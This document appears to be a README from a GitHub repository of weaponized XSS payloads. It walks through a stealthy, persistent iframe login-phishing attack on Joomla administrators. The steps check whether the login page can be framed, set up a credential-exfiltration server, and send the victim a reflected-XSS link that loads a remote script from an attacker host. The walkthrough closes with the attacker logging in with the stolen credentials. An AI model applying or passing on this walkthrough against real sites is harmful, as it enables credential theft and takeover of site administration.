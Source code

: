 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.19

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.19/administrator/";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginJoomla.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/phishLoginJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Joomla site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshot

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/IframeLogin/screenshots/Joomla_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/IframeLogin/screenshots/Joomla_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/416232be-16b4-4324-9321-d9c3058b9ff9
